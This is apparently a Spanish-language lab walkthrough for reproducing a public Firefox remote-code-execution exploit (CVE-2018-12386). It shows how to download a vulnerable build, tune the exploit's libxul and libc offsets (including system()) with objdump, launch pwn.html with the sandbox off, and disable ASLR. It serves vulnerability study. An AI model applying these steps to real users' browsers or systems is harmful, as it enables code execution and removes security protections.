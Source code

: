Firefox Sandboxed RCE Exploit (CVE-2018-12386)

## Descargar version de Firefox vulnerable

Este exploit funciona en versiones anteriores a Firefox 62.0.3 and Firefox ESR 60.2.2.

```bash
wget https://ftp.mozilla.org/pub/firefox/releases/62.0.2/linux-x86_64/en-US/firefox-62.0.2.tar.bz2
bzip2 -d firefox-62.0.2.tar.bz2
tar xvf firefox-62.0.2.tar
```

Desactiva la actualizaciones automáticas en Firefox.

## Descargar el exploit 

https://github.com/0xLyte/cve-2018-12386/tree/master

## Ajustar el exploit (offsets.js)

```js
var OFFSETS = {
    'libxul_math_max': 0x2d8db40, //`libxul.so` correcta para Firefox v62.0.2
    'libxul_got_memmove': 0x5c0b370, //`libxul.so` correcta para Firefox v62.0.2`
    'libxul_got_tolower': 0x5c0d968, //`libxul.so` correcta para Firefox v62.0.2
    'libc_tolower': 0x2c0f0, //Ajustar a la libreria `libc.so.6` del S.O
    'libc_system': 0x3f480, //Ajustar a la libreria `libc.so.6` del S.O
}
```

Guía sobre cómo encontrar los offsets necesarios para ajustar el exploit según la versión de Firefox y la versión de `libc` que estás utilizando. 

### Para `libxul.so` Offsets

**libxul_math_max**:
- Si estás usando Firefox 62.0.2, los offsets provistos en `exploit/offsets.js` deberían ser correctos.
- Para otras versiones, puedes utilizar la primitiva `addrof` para filtrar la dirección de la función JavaScript `Math.max`, encontrar la dirección base de `libxul.so` para la instancia de Firefox que estás explotando (usando `cat /proc/$(pidof firefox)/maps` por ejemplo) y restar los dos para obtener el offset de `libxul_math_max`.

**libxul_got_memmove & libxul_got_tolower**:
- Si estás usando Firefox 62.0.2, los offsets en `exploit/offsets.js` deberían ser correctos.
- Para otras versiones, puedes usar `objdump` para obtener los offsets directamente del archivo `libxul.so` buscando las referencias a `memmove@GLIBC` y `tolower@GLIBC`. Ejemplo de comandos y salida para `memmove` y `tolower` te dan directamente los offsets necesarios.

### Para `libc.so.6` Offsets

Los offsets de `libc.so.6` dependen completamente de la versión de `libc` que uses. Aquí te explico cómo encontrarlos:

**Ubicación de `libc.so.6`**:
- Utiliza el comando `ldd` en cualquier binario (como `/bin/ls`) para encontrar la ubicación de `libc.so.6`. Ejemplo: `ldd /bin/ls | grep libc.so.6 | cut -d' ' -f3`

**libc_tolower**:
- Con la ubicación de `libc.so.6`, utiliza `objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep tolower`

Resultado: 

```bash
buntu@admin:~/demo/cve-2018-12386/exploit$ 
objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep tolower 

000000000021a808 g DO .data 0000000000000008 (GLIBC_2.2.5) __ctype32_tolower 000000000003a3a0 g DF .text 0000000000000015 GLIBC_2.3 __ctype_tolower_loc 000000000003a110 g DF .text 0000000000000021 GLIBC_2.2.5 _tolower 000000000003a310 g DF .text 000000000000000f GLIBC_2.2.5 __tolower_l 000000000003a310 w DF .text 000000000000000f GLIBC_2.3 tolower_l 

000000000003a090 g DF .text 000000000000002d GLIBC_2.2.5 tolower 

000000000021a818 g DO .data 0000000000000008 (GLIBC_2.2.5) __ctype_tolower 
```

La función `tolower` se encuentra en `0x003a090`. (000000000003a090) 

**libc_system**:
-  Con la ubicación de `libc.so.6`, utiliza `objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep system`

Resultado: 

```bash
ubuntu@admin:~/demo/cve-2018-12386/exploit$ 
objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep system 

0000000000050d70 g DF .text 000000000000002d GLIBC_PRIVATE __libc_system 

0000000000050d70 w DF .text 000000000000002d GLIBC_2.2.5 system 

0000000000168fb0 g DF .text 0000000000000067 (GLIBC_2.2.5) svcerr_systemerr
```

La función `system` se encuentra en `0x0050d70`. (0000000000050d70)

```⚠️
Recuerda que cuando ves `000000000003a090`, puedes simplificarlo a `0x3a090` eliminando los ceros innecesarios al principio, pero manteniendo el prefijo `0x` para clarificar que el número está en hexadecimal.
```

Con estos comandos y métodos, puedes ajustar los offsets en el archivo `offsets.js` según la versión específica de Firefox y la versión de `libc` que estés utilizando, asegurando así la correcta ejecución del exploit. 

## Ejecutar el exploit 

```sh
MOZ_DISABLE_CONTENT_SANDBOX=1 /path/to/vulnerable/firefox /path/to/cve-2018-12386/exploit/pwn.html
```


---

#### Otros (Opcional)

También se recomienda deshabilitar ASLR (Address Space Layout Randomization) y otros mecanismos de seguridad, ya que estos mecanismos están diseñados para proteger el sistema contra los ataques de explotación. 

**Deshabilitar ASLR temporalmente**: 

Ejecutando el siguiente comando como root: `echo 0 > /proc/sys/kernel/randomize_va_space`